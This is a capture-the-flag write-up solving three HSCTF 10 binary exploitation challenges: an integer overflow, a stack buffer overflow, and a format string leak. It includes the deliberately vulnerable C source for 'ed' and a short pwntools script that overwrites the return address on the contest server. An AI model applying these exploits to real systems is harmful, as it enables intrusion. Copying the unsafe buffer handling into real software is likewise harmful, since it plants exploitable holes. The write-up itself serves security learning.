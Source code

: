 # Binary exploitation challenges in HSCTF 10
- [doubler](#doubler)
- [ed](#ed)
- [cat](#cat)

-----

## doubler

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/d24ea01e-8c7e-4e48-b26f-5adf045173e7)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/42f6b3af-049c-46d5-8590-281d5ccc6220)

Looks like need to do integer overflow to perfectly get -100 from a doubled number. The max positive integer is `2147483647`. So from there just work backwards to get -100.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/a8896f38-1798-452f-bc62-abc83e79398d)

Flag: `flag{double_or_nothing_406c561}`

-----

## ed

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/ddc83676-ce30-43c2-877c-7f6d16762f59)

```c
int flag() {
        puts(getenv("FLAG"));
}

int main(int argc, char** argv) {
        char input[24];
        char filename[24] = "\0";
        char buffer[64];
        FILE* f = NULL;
        setvbuf(stdout, 0, 2, 0);
        setvbuf(stdin, 0, 2, 0);
        if (argc > 1) {
                strncpy(filename, argv[1], 23);
        }
        while (1) {
                fgets(input, 64, stdin);
                input[strcspn(input, "\n")] = 0;
                if (input[0] == 'Q') {
                        return 0;
                } else if (input[0] == 'f') {
                        if (strlen(input) >= 3) {
                                strcpy(filename, input + 2);
                        }

                        if (filename[0] == '\0') {
                                puts("?");
                        } else {
                                puts(filename);
                        }
                } else if (input[0] == 'l') {
                        if (filename[0] == '\0') {
                                puts("?");
                        } else {
                                if (strchr(filename, '/') != NULL) {
                                        puts("?");
                                        continue;
                                }

                                f = fopen(filename, "r");
                                if (f == NULL) {
                                        puts("?");
                                        continue;
                                }

                                while (fgets(buffer, 64, f)) {
                                        printf("%s", buffer);
                                }
                                fclose(f);
                        }
                } else {
                        puts("?");
                }
        }
}
```

There is a bufferoverflow where we can return to the flag function:

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/f892b2d5-af5d-4925-b46a-18a3e83cc4af)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/53d932ad-d928-498a-8c8b-eae77c1ca7c7)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/482bdabb-202b-41d6-a261-8dadbb599dc1)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/4ce30208-2431-4a3f-a8ff-1222585a3e5e)

It crashed, the offset is 40. Quick script on the server gives flag.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/a6730333-7407-4abb-b27b-6dbf77e500bd)

```python
from pwn import *

r = remote("ed.hsctf.com", 1337)

flag = p64(0x00000000004011d2)

r.sendline(b"A"*40 + flag)
r.recv()
r.sendline(b"Q")
print(r.recv())
```

Flag: `flag{real_programmers_use_butterflies}`

-----

## cat

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/8c90b0e5-963f-400c-b1fa-8f0fa977283b)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/59e4ee20-8577-44dc-962d-36c0a0d15d77)

Simple format string bug. I tried to extract the flag using `%n$x` where n is just positive integers. And decode using [cyberchef](https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',4,true)From_Hex('Auto')Remove_null_bytes()&input=ZjdmNDQ1ODBmN2Y0NDAwMGY3ZjY1MmQwMjQzNjI1MDBmNzAwMGE3OGY3ZjQ0M2ZjNjE2YzY2MDM2MTYzN2I2NzY3NWY3Mzc0NjU2ZDVmNmY3ZDc3NmY).

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/4d655e3e-ba57-4ce4-a25c-c887bec438d5)

At the 14th element, the flag was done.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/0d4fa087-a7f9-4913-a065-d92d9f2e6fec)

Flag: `flag{cats_go_meow}`
